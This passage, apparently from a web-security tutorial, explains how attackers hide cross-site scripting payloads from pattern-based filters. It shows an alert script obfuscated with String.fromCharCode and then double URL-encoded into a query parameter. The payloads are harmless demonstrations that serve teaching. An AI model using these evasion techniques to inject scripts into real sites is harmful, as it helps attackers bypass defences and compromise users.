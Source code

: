 Similar to polymorphic viruses, each time a malicious code is attempted, its code changes. To avoid pattern-based detection, the attacker often uses **multiple encoding**, and to hide the code, creates it on the fly.

For example, let's take our “innocent” script:

```html
<script>
  alert("XSS");
</script>
```

We can present it in a more complex way as well. Not so heavy obfuscation, so to say:

```html
<script>
  let a = String.fromCharCode;
  let script =
    a(60) + a(115) + a(99) + a(114) + a(105) + a(112) + a(116) + a(62);
  let code =
    a(97) +
    a(108) +
    a(101) +
    a(114) +
    a(116) +
    a(40) +
    a(39) +
    a(88) +
    a(83) +
    a(83) +
    a(39) +
    a(41);
  let end =
    a(60) + a(47) + a(115) + a(99) + a(114) + a(105) + a(112) + a(116) + a(62);
  document.write(script + code + end);
</script>
```

Now let's twice encode it and pass the parameters:
`http://example.com/?param=%253Cscript%253Elet%2520a%2520%253D%2520String.fromCharCode%253B%250Alet%2520script%2520%253D%2520a%252860%2529%2520%252B%2520a%2528115%2529%2520%252B%2520a%252899%2529%2520%252B%2520a%2528114%2529%2520%252B%2520a%2528105%2529%2520%252B%2520a%2528112%2529%2520%252B%2520a%2528116%2529%2520%252B%2520a%252862%2529%253B%250Alet%2520code%2520%253D%2520a%252897%2529%2520%252B%2520a%2528108%2529%2520%252B%2520a%2528101%2529%2520%252B%2520a%2528114%2529%2520%252B%2520a%2528116%2529%2520%252B%2520a%252840%2529%2520%252B%2520a%252839%2529%2520%252B%2520a%252888%2529%2520%252B%2520a%252883%2529%2520%252B%2520a%252883%2529%2520%252B%2520a%252839%2529%2520%252B%2520a%252841%2529%253B%250Alet%2520end%2520%253D%2520a%252860%2529%2520%252B%2520a%252847%2529%2520%252B%2520a%2528115%2529%2520%252B%2520a%252899%2529%2520%252B%2520a%2528114%2529%2520%252B%2520a%2528105%2529%2520%252B%2520a%2528112%2529%2520%252B%2520a%2528116%2529%2520%252B%2520a%252862%2529%253B%250Adocument.write%2528script%2520%252B%2520code%2520%252B%2520end%2529%253B%250A%253C%252Fscript%253E
`

This already looks harder and less comprehensible, doesn't it? To further hide their intentions, attackers can use triple and quadruple encoding. When data is passed through a query, the only limit the browser has is the **length** of the final query, not the level of encoding.
